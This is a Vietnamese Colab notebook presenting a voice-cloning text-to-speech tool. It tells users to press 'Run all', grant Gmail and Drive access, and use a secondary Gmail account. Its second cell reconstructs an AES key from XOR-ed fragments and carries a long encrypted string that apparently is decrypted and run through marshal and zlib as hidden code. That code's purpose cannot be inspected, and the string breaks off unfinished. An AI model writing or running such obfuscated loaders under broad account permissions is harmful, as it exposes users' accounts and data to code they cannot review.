# **Cách dùng nhanh: 👆 Bấm  ở đây "Chạy tất cả" (Run all)         và cấp quyền truy cập gmail, đợi 5 phút là có thể dùng được.**
VUI LÒNG KÉO XEM HẾT HƯỚNG DẪN BÊN DƯỚI TRƯỚC KHI SỬ DỤNG.

---



## **PHIÊN BẢN PHẦN MỀM TTS_CLONE_100 2.2.3 (cập nhật 23h 09/07/2026)**
## **Phiên bản hỗ trợ cài đặt Colab V4 (cập nhật 23h 27/07/2026)**
* Hỗ trợ sao chép giọng nói 100 ngôn ngữ **KHÔNG GIỚI HẠN KÍ TỰ**.
* Hãy tham khảo thêm ở đây: https://texttospeech.gitbook.io/tts
# 👉 HƯỚNG DẪN:
1.   **Bấm vào "Chạy tất cả" để khởi động chương trình.**
2.   **Cấp các quyền truy cập Driver/Gmail đầy đủ.**
3.   **Kiểm tra ở góc trên bên phải RAM/DISK xem đã kết nối với GPU hay chưa? (cực kì quan trọng)**
4.   **Kiểm tra thời gian cho phép hoạt động còn lại của Colab miễn phí.**
5.   **Xem hướng dẫn bằng hình ảnh (kéo xuống bên dưới).**
6.   **Lần chạy đầu tiên sau khi khởi động nên chạy thử từ 1000 - 1500 kí tự để server tính toán tối ưu card. Sau đó có thể chạy vài chục, vài trăm nghìn kí tự 1 lần sẽ nhanh hơn.**
7. **(CÓ THỂ BỎ QUA BƯỚC LẤY TOKEN NGROK NÀY):**  
* **[Bấm vào đây để lấy token Ngrok và điền vào TASK 1](https://dashboard.ngrok.com/get-started/your-authtoken).**

* Muốn thêm token Ngrok vào TASK 1, bạn phải TẠO BẢN SAO (Tệp -> Lưu bản sao trong Driver) tab Colab này trên Gmail của chính bạn - tức là tạo bản sao vào Driver của gmail của bạn.
* Điền token Ngrok vào và bấm TỆP -> LƯU, sau đó Ghim đường dẫn của tab Colab bản sao đó vào thanh dấu trang (Bookmarks) để lần sau mở cho nhanh.
* Nếu bạn điền token Ngrok trực tiếp vào tab Colab này (thuộc gmail gốc của TTS_CLONE) thì vẫn chạy bình thường, nhưng lần sau mở lại phải điền lại token rất mất thời gian.
8. **Nên dùng gmail phụ để sử dụng chương trình này**
9. **Thời gian cài đặt bản này khoảng 5 phút**



In [ ]:
# @title TASK 1 — CẤU HÌNH NGROK (CÓ THỂ BỎ QUA) - Tuy nhiên nên thêm token Ngrok để dùng giao diện trình duyệt bên ngoài mượt mà hơn.
import os, subprocess, sys; subprocess.run([sys.executable, "-m", "pip", "install", "-q", "pycryptodome"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, check=True)
# ============================================================
# CẤU HÌNH NGROK TOKEN
# ============================================================
#
# Bước này KHÔNG BẮT BUỘC.
#
# Nên sử dụng Ngrok để:
# - Mở giao diện trong một tab trình duyệt riêng.
# - Giao diện hoạt động mượt mà và ổn định hơn.
# - Không phụ thuộc hoàn toàn vào giao diện nhúng của Google Colab.
#
# Lấy Ngrok Authtoken tại:
# https://dashboard.ngrok.com/get-started/your-authtoken
#
# Có thể đăng ký hoặc đăng nhập bằng tài khoản Google.
#
# Sau khi đã thêm đầy đủ lịch hàng loạt, có thể đóng tab giao diện.
# Khi cần kiểm tra hoặc chỉnh sửa, chỉ cần mở lại giao diện.
# Việc này giúp hạn chế các request không cần thiết.
#
# Dán token vào giữa hai dấu ngoặc kép bên dưới.
# Để trống nếu không sử dụng Ngrok.
# ============================================================

NGROK_TOKEN = ""  # <--- DÁN TOKEN VÀO ĐÂY / KHÔNG BẮT BUỘC
# NGROK_TOKEN = ""  # <--- DÁN TOKEN VÀO ĐÂY / KHÔNG BẮT BUỘC

# Dùng dấu "#" phía trước dòng để bật/tắt dòng đó. Dùng để chuyển đổi token nhanh.

os.environ["NGROK_TOKEN1"] = NGROK_TOKEN.strip()


In [ ]:
# @title
# -*- coding: utf-8 -*-
import os
os.environ.setdefault("TYPEGUARD_DISABLE_PLUGIN_AUTOLOAD", "1")

import base64
import marshal
import zlib

from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad


def _reconstruct_key(parts):
    from functools import reduce
    return reduce(lambda a, b: bytes(x ^ y for x, y in zip(a, b)), parts)


_KEY_PARTS = [b'\xaf\xaed\x95\x85\xebP\nV\xfa\x81\xba\x1f\x93\xd6\xaf\xc2\xea\x1b\xaa\xa8\xe8Pr}\x01\xc5\x02\x80\x86\xb3\x08', b'Z\x1c7H\xca\x05r\xca\xae\x8c\x05Z?n\xb1\xbc\x9c$\xd8\xfbdc\x03\x98tD2\x8f`\x0e\xb3.']
_IV_PARTS = [b'l\x8bE\xe0\x92z\x97\xa5\xffk\x01\x82\x12\xdb\xe8\xe6', b'\xd4f\xf0V\x96\x96\xc5\x07\xb2\x8d2El\xea.\x9d']

_KEY = _reconstruct_key(_KEY_PARTS)
_IV = _reconstruct_key(_IV_PARTS)


def _run():
    encrypted = 'liCS!WDla0p?3TS9}(z~Dx%_VDc4&_l8=B!%&XPVjd^}`rZf2#q%9+dh;!jB?dd?L%#>Xj(q(4O2lS|Uo5Qk^%dKQ^9tW684qT)GT?`T+9okjeD29z{MUGhfi=rnV1BS7gGdRLGh>O`ozvtQ_TY(LF3<pXNXN;*nR4)hnnyQg?s0NMWggxJ>95Dh>spE&|86*dbz!c_mf0G7P8BXvvD>N(MnZV;C7STBGr0K=ezjyz8P0GuGF(QU|5OO&$Ks}HEKCpUN>>&QRAsK<3#HSU+pAl!%Yg%=pviOlWE&+ihL%H;4n(n#*X>X|UwFS#ppR8t3F(7Gh0!QT$L_T{3&vDj&L8|XWBiZny<aLH3*lhrlU@&o;mZWa)XXLdM*EHGr1M{>PmYcdgkWtwIvMp6E$HCF}xKKM?q$;X<K6ucK@=uPdT1i|~SrpEoAH#|92OhT!P*|prGpmHTHH}bL&>$*xn-G25Ek6Dh<gq%}eaf1l>d>!%s4^uvVu{AIIUpyJC5bZe`o8r~4<c(93_{vOA1Z_A#g(+70@N}4oHczQL^_y77uTcHGit*Y!L8Y>WEL}guf{>3^Q&&n-C&?JfNZ!@h|T~{d=elGz_aK-5;#mQ3Qc1N^PiYRppH5eJ?+UzO~Y|Xm(=)_S-0zq0$JJCrEaE*nrhO{CV8^5sPL|T;V+*oP;rq#Q!O(&jQ0CoKWAxR2a;~QFAaY6B}1`{K#+}G@cPPFD1qb+<++prf9<(2(1aB>dZaRH<wD*z4ul$Ik(buMRibKR0dK8g(v#J{|I<TWZjtT^^l&;{dFytYaX~|kcQb6q9ErmRhx<ZWr<(A^RVLCkjUNN}2M9L>H#Px`zG6e9Jp`Ha>)MKpjwR65?sVn^aylNGGz3jFTqA1h;p~Y;Lr~{yh{)G4kza^bRd$UY8)_bWe5a@$1d~y+{i0qWe&!y-{6_C!l}KqsrWDG`1JcoHco%8(XIy8i9bO;6274yweusF?>FD9Wy@Fhj#+nTsE@4Hfn=!NYr4wLEj`>#rFx*qzlC9fywERk8VmRy<`8z`miSnzZUw5~%demsaz@=ZDZ0>cuyAZcEuH}8H)GAk*vN<5>ukpE+YRxaHux#G7kl_vra96(EmH6n!WT)H~nw-Gaiw&~Muo&Pjs6fwEKV?DZkN`RtszCBhq(2~1MBA<7*gmx05}z9V{^Y?OzX2UvAooKEUBkfzC*(n1A;}idjDgkJ`aQ*MT*7#q<YJ2yf9jJHVnf<Jbh^sW9)1}mapr!U3eW5?;31HbD!=p(%e7n7Ppw6|qQIqA!@e`($2{EI*6PI(c^IsV208S3lvsUleesTHgBYvGi7_&9Ti>7{1PJTSVA<p6&wWVYa|w7XKsEU((2b%sI~MPPqKi3YBH20xM|=6OHc(_?$U?%qT&(h-br2_m;Wh15&2Qh<@72a+Q0E^hwPzlycUKMks^O!ogxgNY!6r0af2`rX(PQ8@uQ%SveGZ*}8znk@$iOtyZ(2yV%IjbS__Tf;v+CudZKmK*tHnmv%!kKCJ}hje<L<uOusBo;$S!MUaO!1j@k?R_OO_Pvp7+spYNZU7SQP+V`g~WM9tL1HO8-s4{xmM%z>Kp%2mjaPVJgtBXlJYPSq;<@1#aiSwNtRPcOrpo)j!t*W*!&sNZSAPfqtrYJ>oi`SX|b}+B__wtc$p02zAgDwE}Rn@pV4)$W#(2(|W~oPbn8sXcqF<LVe$$9GxrhOjRpuYt{U!7G(kzN@UU;gS%r`1Efks!Vz_=BNZ>eWKQHLf%sj#mv<d?93wp0oTbUl3o`&eseu{r*^VuD)@{Apa;98_{7USG5g;uDJOvW+Z6)070wmW<<aST{i#PXVdXS19aFMO>8>nK7#I9zHh46UTur_>{*!FNiu4sI3$YD~LsAsMvxnyXqV$bf=$tjy@t1z|j`b4QaVk)YeNZbkEAf)J*^)G>F2hPQGhN*GH8Hi~Fk78Mh8sPlrnpY#e!@Bs=gl^xaajl*>Oo!@m`0ZPGZZT@rZuCoDe?dhPu31GtA!FF>vHQ0pAz%?ef_r|Duz10%R=M@S_1FHZdI)yos&A3(Hg*IdQ*H4Eyk3BM8!-rO*4h%Y&+HRbGFDuK-Bt-rcK$o{6?H&diGq6?(6&05<8%gWL@8g=9X2s;@;#}vBaz#YpcVsfPr3ZBc?Bve)xU20OJM+%a=n3DRP(}c6y|&ic_8qB=Agcm&KRH##PYOpbe}AXCagu$?{#8hxl7+iU;c!)xX$k<89(4wNg{Pn+q}A|<gvE|O<7g_AhmA6Z=SpSedaYrv1D~=^UW-%PFINNQ!-Z9k>&}g`+jE59x^inw?sB<ZIk{()CIRrp4#+b;Xs}VT^pLchv!m}EgvJd?7xnkfY@kKrSas3h3@xMz(}?#i7kF91_{_mGRPbL;5h(-^eK6&B6>exW0t|eK`0c3dhc};l@I+i1iwC(bOpDkpn5ECztCFfMCQd=Dr<@bH?!>T%&r)XPgsMnS52wG7Y?$Wg+wJ@?`|!o7{IOyN3~4;HxHmbasa?E*$lSyb3t#~DK}M-<^r0X-U4x52zuZVaaw0rf9CW6meS57F91|9RO!@1++dG)CCyCFf&3V~#W52fjoL&Y+l0dW5JXDZOI+mjmmR3s=j?Ll8P&&kDo&5*Sp#e_PN?K>5;QXDp;_wmN#(Z$=)<f{iN&&<3P+iI&=-nk3ed3DJ={6+p&V=v9u^1e(H({M);IF+&J!Z@`6n923mVs=c|CkUN>@<YaiaBW+MwZ8+Fv~8o+AN3q8z<kBmWBqqCdI)*6oCA4tB<})D!q!9Vp^yP5rz!cXL+`jLadw|9`d#?KVHdO7mK#d>OAyL99|)xc}??G9W_1k|wBHy0Uw+CNy3~jK=^*o4Fecw`k=OyXW!r=cM=QwdXGfz>AU%FH$9a#C^QPq-i$foVvESXO}08K1s>_0^7CDw{8km^2SoM*1lG#>p}_BO)&6rZIrIYt4awqP4n-Ap=l%)4v!&)@1ety;N5T3@h37{WSo;6xITol&$jll=lvv-w+8U#=h4jNAt$A6(tvhES=Gt!J~cqz(O7JdYXx<J{SrZ~>y8dQt&rd@*+ax_MP*=I4x_4By4){C_l`IGSE926O?h`f!@a&O(q<Zp{K${;^161<45r7HEzhhVp_TLF;%X5A_7Q?%6;2%GE*>M}m#V=L6F`uLqvPND{)!L5x2{y2j@zO$A3#Hgqvg_l56GsRa6ITqvWbxsU^=@uATswU@68ip3U2p)6yI#;14S2A4JVu8IIEW0M^@~VwHg_(5)x#}>jECYz~$1iB<g?AB$+nC@Qnw|$ii$--c?G%Ko3LkdKudet8h2sw%_fKYnGHw`y-}kjAC?I)Wkp7noE=Rrks&#-$o|$-T9&6dfbS3NA6`;8e{Jsyb_pvz>JVCK_(*GaH4T!?=nAO0U@{p$6MF$a_tAlO#oui{D#<MVIKHfhvzozggAlShxQ8Mf$T!{?zp^1K$(8B5c5>pMmQ>1e=Y~AIny@il_V)iiZ+2+$wHj=qup6u>3*m$fy661IcI@WrK<$))}O`qW<(>kNCJ|cj9S^7-0Z%*x=FS#Qr|1OX#_%4llUsD>oVLW{&fGcv9m-E@!QVkRp9mROGf*-=}Zv^p^BW|tLIwky5Psl?wiIB3;}m5jIXuI$XO}i!rB2eZ7J$FY7C^UR7p;z+hwege}LIiwHrZoGU)V640QxJ7~Xg(OW#jOZ|?04G1?Enst<LT0+b6^jITi+LVViJ8x`a*_aN!~;24U&q8Y6Im2mY)wz9#_0mnMPsW%DX0UD&4mvtD~;l87S_Flf0QA+xYaVJ;lLoHrm!hcE!VKLOJ^VV?9jX01blwj>&U?xtWFs?v^<OMBxxJYD0JSw*YRvKBELp+q-1^q2ESsrsY1|~C_>#RX?VTV?AJW;Mu0L|1*zS(@a0#uGrXrv$jsfN)58lu#1(W{y7ujPj##0@$(JVuat#uoIgI<aHX)&(G>fa5+TAjhkVjYSg<S=w~T^A8Ma<CK?|aUdwXGB%{0vDA@;#AyvL>BKZ}x@WeF6#%G+D}Kw|eMd*L97E#0I^BJdK8tAIQB?z2<LR?s!tu>6VKs&Ri~;PIO~Q`=h(~9!$9Tl3c*{4cl*QlDn{-|`BX_zYtTAlDLW44&y0H0A<6Is!bu_ZXn_f1psGag4eS~areriX#z~6|%WLYV{40y+?rXh>Xo-K!uKYDxdkL`l|*tQdT07b&Uc`r)f42^ki3lSq>_Qoct^^twvj}<+z?Hx7N&11PSrM(bzcgbLW_x|R)oNnV}Y)b$r!VoEJteW~qGDUTo^Ks27M6?ind%-hPeL7uUw(aosN8Ww}1heQ}By{Vu7u`+U)=MFAj|YRY{nqguY6>fkJ-d|9fGbCWn+Q9jN+qKzFOg@zbFz-Hf+t*c16YvvHo4EAY!L9;*x#kTlE2App)5%%;JP#2Yx-Npe)bbNmE6QH)L93byoF#s2|zJ3KT2rmg>$SM`qShv1CkUp%s{noMkcVvesX>O1;-4v)6@~p*w;}~M!WqTr&5gApzq(X<3^yvj;2N|fSB!};^jI@9S=h#!yY)!5c#zX<mB#f7F?!{QAX2xO78WOB_%BCq>l>48?2=Y+5DrCYy>y=rBEdZau-r{a0?`a+Dr?O!Aozoz`>{N5%vw-CH$ffa?<|mG=Z^AH&5!O`$1yQLq_FND?Y=_kw)gVA}Bbgb*e&+Yn9X|*jW!;`vj6TVM~fL5TLHX19J+0)FQ6EE9;>V;g$dDMD1TX71scv$l~X;bKDt!Nb-kY`e65<E`K4x{C824=F4bSs5QZySqYHl!BvO9^oI!e;Ahmx;<;OIc@{NJVB7iE_+(Uc>Ban~%`vG%g;b$aVht}nKQilLPn7lv^?svVzBu~QP#!m#tp8xFJcNPwi)x(GN`<$q$@61{U0EglUz&xigMtWo+Ru4b>0-;?H++Gp^*eu*;1BgoO}0}@LmV22HD|h7h6#ldJf2XTG|EhB-ryfv?3vRtMffVYuddG(?3))IVgOIzGP5|wYSLN>I>!?H8v7O<sj=yvZoGw81!U4<wfX?+KOD$4G>AT%L5bx#Auwf|Y^v%3ku&-+zEF0d&$lY$_ZPW;vYeUBykZwKM=f*}!sm*e%Ow8kWwUIM+j=bh?^H?)x`!QJBZ1{K&#Z^8l}rKR&t*4#4*XFMtFNShMK3M|ybwQ}#Z&$oZUEmWqe70PcJWriyOv)IVfYBX#*`HC?IUQPB?X8P0!Td;sdhq%$Cnh=^e3%o`AB<x;`gNky+$NZ>gyenJOMIL!Ke>eMoN~8vJ_~Ha-vP7PLWw^+3pbiga<{lyL_>5x2OGx<&T2A&((QOsrl~Vn1xP9H`>Wx5Joh?M{UBg6D0OS#PI<~dE%gW9isq}y@aG3RzcC}u~~QMB>qtoWhc57>-zj1o9IoBNaXiTaJV1&?TO<Le`I)L!63qWDAOgMO@6wrCalMR<>;dtBhz`Ugx0f-JO7Js$H^@}^}zNyx+2Y|3+lvD?Ry@8gbUHHt8tf5;}}RJYNYj`9l+JZ0|l;0kHXc`Dm5oGePodIA>$0Y$PZnrlSr&qpELfHK0hZ<xMu9c*1h#iOr1KfCVBd6E5GgdvS9A}pB(fcO3H{nyaCPtWoKUV-gTb(MWg%kBv#FvCVI%O7SzZ<y0uaR<fyqwG((+2@VVk<7O=C{x+MkzUW?==Bhj}Z7YxeHPuK&w12+h)h&)}X`ueYHrg5Qr)A;zBn?ih@U!&+QuF$b<t{qgD)ucmkJ|_Beh=<K>num{1pk(qX!c70#O3<>R8R9;m1kQ>Zv#*kuRDQs&CT1Lb*%2Vagf7^)g-a3@GgYNBKLX8DR=w$<-^3;tQEELCcpUo~Xp7Ta#8;wK#!~)ZW!xihK|ABImectLHmzHX5YIBhNBY`w62+(Kz0XT=634R0X)kbbq;4`mtaPSe6`atnEQ-tOM%S|^#(dJWYp}g^v7CVD_khU8``(%9zo9Zxz-NXwge&Sphwbty04!ZLZgq?P&U1pKKQPjC`sE@iQjx^}+1zS_EA+2RnuPjavJQIt40~~46RO2y9y&?Z2}X>qx37=I=3S2!@?M}gW+|7|IfOQjkr#PfFGy*yMs=I?`2)%|spD_}7tcMedMh5X@&_R9>PpzYba;Z)DwHw`uXw^3dPh9;iBkL-MS<s05KY`DAR`(KU6p&4)yUQEQln+{edr8vad4DZTxHX_z{W2yU?_qN#Kzpq{cQ7rwj2PA6+l_3{S^#2zOU>?{1kdNf+lR8pQ}2-vq}}BkY=^73?J>b8~yW9kAIJ<M*nuYT_4GZ2<%e}zk3OnBzbPT5*zOq6-#|5W^WD#u$XZGsEE!>W0Dw^W5J>{+hTpzDnHqCKPQ2OGxRfuQQ-=0O<z)u;uVm81SBP7Ok|3~0vrMd9J<R7l51IU0QBxXdMJl?ZodxetC8csPHPR*p*=@zs}WFvq+s8FR{x&cf3#TEex&u}BI=s~nvd7BgiL+>CD?_bE~$3K@+NQt)CH5`^|uoMnQV)UU-#NNm*g52AV{T<_9FwCuui+c65L@BFWsGbI*YBvsp*+>T5-D+vn!L7<Sd4KYAv7ypr2fxNHM~coZ~d`1*O%gpJ;3{l8&RvSqW>I3Ct7c#4|ag8nCP+k}Z2?o!`rr9{OrD^#nHt4|ox+YDTg!7{(1?cu`Kzz3KRHGPi}bsP+mZPn3XEVA)Bv^zL)s6-ZNN0wfO#ylgk}^dYyZOuCi?De$F$-qyxn=13Ky8a6SUFK=#YD~h@6q~-CYn7Su|7)4-v$|EqNX{7RPIBpJgGny9CQewXO=gVi6uA?R`ZeB0TzIJ|FE{sEdK~kNL%%Ow2i&r3Q2S2j#&U`Mn0Safzk<|-WvRk>@#eM&rWk7hS^6@&*HE!#(FwON1Sm4YumU(LMmwWXc(qEJlvF{y@W+8iEJ>c{1$8j9~&1b>4RW4&Z@Oo7j<fZ4t^<JIOvkL{wKvqnAt+|aV*)D$~;G$dlz)K5B1<V@{Qt(GV?v<|BaW`|Hl_OL2D+oCGtd!wU1=F^$V}+yX)XaaILwC5xc>_n2weyPt<+J$%q&((6NG1*UQ!~|}M+uXe0TP@J;N&5_oYS_uu?idKJa!UUd6$roGP|F)oljov#$D}LQ|7WIhJ7ZejLBi*R4|iL7Qi3R3f^z|AO1>+5sm6hAJCXBVenkwSchos^2I+r2N*@9znh=6Lb*0F0~W$m<Y?|B4R~HQ`ok$40dJ<yTEc)O#)pbe;V5p&N!VP!ar6PDag`lI^S3y#&h1h1*p7CC?n~e8$Q}JZ9XpOQ2_bA)rQAPj1n&-88ucYVK+jUe#Gcmd=I3F>j7QiFGTuI8?JxWQS8+u04^SoCDZ(0xYMaIB?daJ6M)<xn=&rVBywkJ*#ww1uN;hJYz-AsI?!q_ssZ{1PT_2%{1J8M64k`x(3{eYA74VvluJfUa!G`>!6*hT?sAap`B3g@~<<a$KsLHpFG>gYYE`z%Xxg2b->UKk$Zq2I$15b<U{-yvg&n@Jyri!;fV&41;rF(ydAc_!Ddo)AkI@~XI?o7#4_KyvanU*gFl6pY~sbHwNW7{7mpc(W7NbwJQJU2Q9Jj<MZ2rOJ~7yKj83<BxJeynX-t$~`k$Hw5K8{eDLXU7)wUlS85SNbPjJ6&~hh~;cW_%W#-c;8~(-*dK?fu?0b3rIyi(1d?dF^>4#P^qCwFgTgq26e7PABQ8@Ww597_0te#Q{AIwG#u8Y%@&aPf%5H6Pux|tr{z*kYVT;~YKRSW)S5xt(~9JFTf|D$K?vpatx!M>^5{IQK3Ime1umoy<he&_L=tHV@~+~g;fE5{uABPBRB5+4GRK9QBa#k&>hQ-0e@0%9sVVLigC~uNt4<o-udUon18=VOL`X-zz>u&&pjRYtzo-HoC9>Srw2mwqCmA?V3w5*_#k*=VljwA`^$W{SabKP)4#iWb)~WLvC-0j#O=&;sgUmpq27-Rgl2qN8_nL6rJjp&7q#9R3@sD<C6>rs`&*BS>=w<JyL<DC5Bo%H)tzkLQUnoaygflD!v#h#xnd*5sFkF){&%A-z;`*+23yIl<QXE*ty;gC@$yEG9dtUS76?n|4PN|xv^50_>`lxfiIR>FZH`BsoDVgD~+g!bbzn9(EU7RCUX=H&ezo$P-{5KXen;~3e7~-u>undl~Ctnisc$8_g5mg&ccth<X{wx_k{QrHZXEG7;dyRwr8F@3+lXHP45rD^41p0L_gA3g{FnT42$CqCU3LJz5@kJtJ6vxk-=7HK#YmgD86F@mgOsCRgW|d*zz&nwk!74qAT}c@F3VyfHcK$n%lyALAMS~Ja5M=@LNFqUI#l)~C)L;{kx7l+2(Szv?C@6osddLz}IQiBSbh{VW82P%;bQ*@FFxZK;)k`jvrU5-?6Ca}NBE1|{jr3ddZh;{-KT~|$(k!mRfKEziLc2%y#QYd4Y0xliPWuR(V~Ipm{I5aCKpfKU$8jtqdL@$?O@8L%y#pRWd<3)hG3p9xHH5`~$W+OK^q)DLfwaSIn!LmONibMGZoBJ#m3u<oMchH96w-7Ki$OpD^KvJRh~D(6a2S&Gg+E+>R)`~qD?Nz0{H6_)pB6kN95^-rDz+kN-MYFz^}ryfg|^8l7T%F|NrnmBfin;DQ5T0gfC~b<*HjhZ)4;OxaRna|2=U_0Tqs#+Gc8o*_E3-8srMQB>EaV2aOrH+R2lJDxgi0TWFa!-rTLQKXvaMqF-w13K5IULKN2inLK|&J5m;+=24sbyXuQ!UaZRLBOzJ&ihB0V(J)dzOsI`_^mL@4S?i7dIAfoOL+~7Mn5m>za13Q>>7zP!vMni5;p#GXfg!`U`T(LafwQoWQA8C)nSKNjw`n7yH!ZQl9ge2u|7i4ixG~5}+s~cAIxEQOqTJj5NrRGJZE}BH*OU2kJcobvfbxDWqo=B}qR|2qm-YVq;>xb<oM4nN*bru}|=!Nswwu$oy{=<zGZ=?_^+s>(@l<l#wab&gX<_+DM8TqW4k7gSxg7LU}gOFUi*VyUa)1|!&Q17<dBpb&0E0ItVs7LP6F;_&n3&eqEWKO(7oRi;$DQfhA_Eu?=nGUH@OIoECNWI!bIY3ht0^eF8yuD4kD53Jj@#AC=P<w#>2Ug8Y*^<V?*xd6P+ABP!n=vV^Mtmp4tyH?_hZi`ld=zl@gbz_lc0KSWH0KdpYmu<K>ACbP;K|gg_$>TEMP0;9)P8JzoXZHT%Ue(QoQ-8_Ms3FC&-6_OWC5dI8W-1d3}^PSn%M8Cu@8X!HUK48Xp`t)_W=FO9Esp89d!*7G`GZ_>&4@#=ypamgZKYn@siHqp@3YjuR^0{FlP$|TZSE=txYl`h>GPYOuQJ!6auD}<iL;~6viFcGlz`VD7X<(b}|;7a@<IjBXB!7)Jn{W4k~gMb-L1>tl4+KV!qGG_4V4;>t|4&Wj2WmSgOl2#!|VAqMFp2k(BIK7$EnTIRsd4dJd}(x+65iu*SJvsBMwtadnDe5y*Y_r;;gK_94>nPLl1~jc{b$d$zY^!Hxw$(_y;IsvYx<<UjD1fUYpf0`><k%PjY@Q}q&gcK{!^JRSA4a1SBO+(aaj8xvfhTH|KI#{VC<u|Bt2r6Nj(EzWMwsHHgI;G#zW5s$&XN`O=L!po$jAtu?H=rtdaJ0-^5>LRa)K0bc}sb{|9knOd>(l1n&Qk;9uY7U!Mu@u<BHU!&x*-Gjb{*}hS5{QK+tr+nsb8n*LFhn<zJ+vA2wiHw>XsxS=0+3r#98yT3MT29=JNkA=#R0r|Zo^&zXM^Vo?S`*t>83hSbL~z7Q?b_jHbmq@4&<N9rCZ2cfZD)^%s$D?`u<jn@Uu-EFbt%y$(}Q=H_U$ksg7osXfzqGA=KNNr3&h65h=L*?iS)*<O_nd(KoigoEu>-^}DT&A$PL>!ZAOVS4c@aP?_CI;n6w?GR9A}7*0%hU&;CPHNr;2UD_S!6d<~jaI?UyNZOsUlj#kP3cS0yTjTF_p7$CD%5;LItV?!krnfoY=r$Sh3}Iby<bJHr;?Vi~F~i#k@D#)dU+a50l&3~_W-y%?mLrcYBWk(eSwu~BvX%zgR^*VakA@CKF#$?M&@V(K8yyOM5KEFJu<~?^l`~G(*>|;~*!Ifc$pA)Kb^Ap%;u@C%p=a=>yyn-EpqYi%UY{R#?7m#d?;W<QaM!D-JH)N0JhH>^cmqP+$keFT-d?N#5-SKSE36B*Pbp2oQ@!=}6#DdW2#`l(67ekS|KM_;6ZOG>y0!g{khYCfqFiVRx>4#tXcDiVkI?X7)Q8#efA`iZ6Gwfr=>x3{K<=A<U_rcVLU<|d)DNkk)PzOF9&LCLQ}6Q)(UB1n%VERG6m}JbyWPqUT9V70F+_gq`0xujEOD2ftv)n=AMgqblP#$gB8%OfW9$?YIcbNRD6jP7vlzwx<!ylwX02cm^(Uv4HK<2kD+mUGfTxO`Facjmj&q#2MhQVxD+$gOlI!#!m3X3iHcRfe#18bItww7zkBemH^H@+z@rYF&yST(Veu>kO1MzGP$^<Y?wI1VZuZ^ac>&KW=yqLf|XK2qALb8A6Iu7V%P0-RKI3qVVJ=kT_LXgzH$n-XCx>hT1lTZ~YR<G#kFqm>cWmr2YOSR`Vn2FJ4dhsBzl>(N0r~D?CH9VB)SDVWp`DZ`1G(xZGgex^u7l3?fjefrjv(eMY3ooG6#^|8p*U6?LZ}ubWS}|ydFTvdH?Q;eel2LAWYmIX=0M*uif$75sks!NAGtYi;@ba_pJ_k$9W`Rb3N3z-4Z=E7C8~z_GIfL_tu!VlWR)Bawr2CHSaq$0gx1wnh7hiNvT|+upj~wd3w9GM5zPw1q$t{kpMG0@!V1TI+@Z|#94PblM|Mj>T=iRYRO^k=kr?5$HKJFT{-6N#Rc?3Lznp10hp{#JNtEnBg@txSz88a*+WNHclGxLD$QAfhMD`yBjlb2SE@dPcA@+&WiM3KFV!wD^gy1;ASt#)%eRaKWu@Yi%(h{Q5bjGAhNypTM5TiuUJz#Lfht{ws_b^EYu=+D(<9|oA4>4vTM2dB>u#aGB3?o+>La%p}Zm03A(358Fxr$O&wk(5-3A;)P%6jD|puw47uFSn_KSp;NL|KN5^k=Rx=vf(o<VkH1>gD8tF$Gh5Bxiw>5gl4&-*yDQ+V^b0)yAf9gX7#k|c<vG87Z>nw?Yd`~qQCF?xN<~F$m~nwftQN$8Hl-}rK6DVjwnxwmh4pjP}(t#^|rrX2^|tSIy9UM0vHA@^3OL1S9J4;p36Z4$+31x(>?f=?zOB|%tNZ(QEYE8-?fXZc!hA<bT0SX7R;%$fEzD>^s+1RplzL}+&;>!-JqFcMIS;y$NW$`!cC8QG+p>>^m6R4|7ePkTK|DD>lusqb|4V}+qb!FKDnr>omU;#ppUhYMR8gw-7GC*FLP`<^N`;(dnANUonDiJN_%Bg-^7W4j$}z^i4DmcB3K<L5fuGU0rZD~>!35R)k39S2Lhk&;*X@%U1O1GjMLss&g|OS^VAL|d_gHGwaE7{TGrfQ^hTXf&E$eh5A{DLxJQuZa4&?b$hzF3&fi)gRf>1zOco?E{IIOq^m%JMeQoOoq@Z|6Z?b${NwY@qBqR{j{Hp4c^{XhN)qutu=pSsg=%=>yWQ+RxZ)F{S^kwV<Wa(wzS1XcwIP~WyI$GX|@c`Uo<7-XN=QdZ_;-;<{m!x__P3*S+j|J-Hb@uC~#LXlix#S-d9Prv*2&;)nx$Qy=mMemmBoc;CV_$R_S{kWxF2O=mFON;vj|-hwB1u}c;UTa)T7yT+I1Gg=tli+t1Wm;2b$Cb%fZCr+TLxyU90|x)|3YU7Sc&YN4^1Tu_jbf64{R>5pRbnn-BS_i-3=Eum$Vrs=<#_5ewJ86%xY?5g+pyIiIqH1zrVF?Jk=+ea1$SOxb~_~3xwODEk$|bhb?+qVCaxT7D=$bOqp%XIh4FN!z$I!N%FniAYxJKL&I2j+UaoB`u|Sky`o)HFqmI=1{W_-peVJ@8RO0Hfa{|IZ5b>pIV)yYryb6U&h*{}{A))qsa?hdwzbJwpyMSi#Dak(_plY4sUMAod4a^EsSQoHppCSEf99n&$@@yxE%K&oGZgPx<nFEK7jRzCK&!1Hd;0h*?oQ;b?@_XoZxNfohZGc4B9?#DQ@_T_v+LFuIJ`?QefsOZF9NeX8U$yvQ*8VId7$kw^Isg3T9x#f&gMUZ%sFaDAlLvnCX1dq6=b##I1VrJ{i#)$4D;uh^{Y6-i?$vip`=cb*lJ#mrb;fJ65T$^+BF;4Et_W-Cb|MG7&bg`xsc(;T|jcLKMAvY+L4I*ZJAe)bN%1kiQI)i@YqS4X=#LGvLZ`kvN+FkVW-L_kQAPRlpHBLt=@&KTB$Wq1;L34ByYKt{Y_EZl`fYg+5G{j?_L%(bzqol&!UR%Hn5ac*kwJ89hCimln^zJ=)%(1h?K2_ZWVlQoma>JINHHoe?cE+u^tP3_dVwo`vRw|>bb@jZ%yVfemLY;557}Xp~?F&fYd|S@z!=@c1+{Z4;m`~Fr-p18Qr(3P1I>pH<j&inXPQ~2*Rl89?8880M-5R*#%wfO-$h9afgeC1&ouK9bL-#hOq$p6a8ACs@9lC6Hr+7D9!=-xKSn#{x|2w(P9<opdUnG=QAp1bpoUebgbm-qz-D2jrtt>p}|%~)1E@N8}+kZAM{^@wdL2^`BW2jG}?5DT0F^lasndcuh9td4-Jg|_Vxs|3+r6Qnq#hOPZJU~%i_4UXD3b&p8byyc!TnfLdLa5hlegRr@v^|F5Qf(w9EzcNq>sV)F^|X9hn&%CL;9ZdW?}NxUv%j^R{|~9h`y%>+#QOg~H?m>OfH|N0qITLxGSVSZr_<7zx=Te%oJ>Eii3o-O;P|G!Af%@yS*FIpya_0RYEx9v<yL3d9i!A